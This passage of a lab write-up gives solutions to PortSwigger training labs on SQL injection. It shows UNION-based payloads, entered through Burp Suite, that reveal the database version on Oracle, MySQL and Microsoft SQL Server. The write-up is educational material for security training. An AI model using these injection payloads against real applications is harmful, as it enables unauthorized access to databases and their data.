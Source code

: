 
### Quick Solution
Be aware that on Oracle databases every ``SELECT`` statement must specify a table to select ``FROM``. There is a built-in table on Oracle called ``dual`` which can be used for this purpose. After retrieving the number of columns and which column contains data the SQL Injection cheatsheet can be used to discover how to retrieve the version on Oracle databases. The payload is the following:
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: 
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
3. Use the following payload to display the database version: 
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft
### Reference: [PortSwigger: SQL injection: Querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)


### Quick Solution
This lab is similar to the ones before. The only difference is that it is mandatory to use Burp because seems impossible to inject the '#' character from the browser. The final payload is the following:
```
'+UNION+SELECT+@@version,+NULL#
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter: 
```
'+UNION+SELECT+'abc','def'#
```
3. Use the following payload to display the database version: 
```
'+UNION+SELECT+@@version,+NULL#
```
